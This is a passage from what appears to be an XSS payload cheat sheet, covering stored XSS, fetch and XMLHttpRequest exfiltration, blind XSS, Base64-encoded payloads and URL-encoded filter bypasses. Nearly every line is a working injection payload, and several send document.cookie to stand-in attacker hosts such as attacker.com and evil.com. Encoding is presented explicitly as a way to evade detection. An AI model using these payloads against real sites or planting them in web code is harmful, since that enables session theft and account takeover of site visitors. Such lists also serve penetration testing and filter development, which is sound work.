 ```html
<vmlframe src="javascript:alert('XSS')"></vmlframe>
<embed src="data:image/svg+xml;base64,..." allowScriptAccess="always"></embed>
```

### **20. Stored XSS Payloads**
Used for persistence in databases.

```html
<script>fetch('http://attacker.com', {method: 'POST', body: document.cookie})</script>
<div data-xss="<img src=x onerror=alert('XSS')>"></div>
<script>localStorage.setItem('payload','<img src=x onerror=alert(1)>');</script>
```

### **21. Using Fetch or XMLHttpRequest**
Stealing information via web requests.

```javascript
<script>fetch('http://evil.com',{method:'POST',body:document.cookie})</script>
<script>var xhr=new XMLHttpRequest();xhr.open('GET','http://attacker.com',true);xhr.send(document.cookie);</script>
```
  
### **22. Blind XSS Payloads**
Blind XSS payloads are often used when you do not see the immediate result but need to send data to an external server for verification.

```html
<script>new Image().src="http://attacker.com/?cookie="+document.cookie;</script>
<img src="x" onerror="fetch('http://attacker.com/blindxss?data='+document.cookie)">
<svg/onload="fetch('http://attacker.com?xss='+btoa(document.cookie))">
<iframe src="javascript:fetch('http://attacker.com/blind?cookie='+encodeURIComponent(document.cookie))"></iframe>
<script>document.location='http://attacker.com/blind/?cookie='+document.cookie</script>
```

### **23. Base64 Encoded Payloads**
Encoding the payload in Base64 to evade detection.

```html
<svg><script>eval(atob('YWxlcnQoMSk='))</script></svg>  // "alert(1)" in Base64
<img src="data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoJ1hTUycpPg==">  // Base64 encoded payload with alert('XSS')
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>  // Base64 HTML with alert(1)
```

### **24. URL Encoding and Double Encoding**
Using URL encoding to obfuscate scripts and bypass filters.

```html
%3Cscript%3Ealert('XSS')%3C%2Fscript%3E  // <script>alert('XSS')</script>
<iframe src="javascript%3Aalert%28%27XSS%27%29"></iframe>
<img src="javascript%3A%2520alert%28%27XSS%27%29">
```
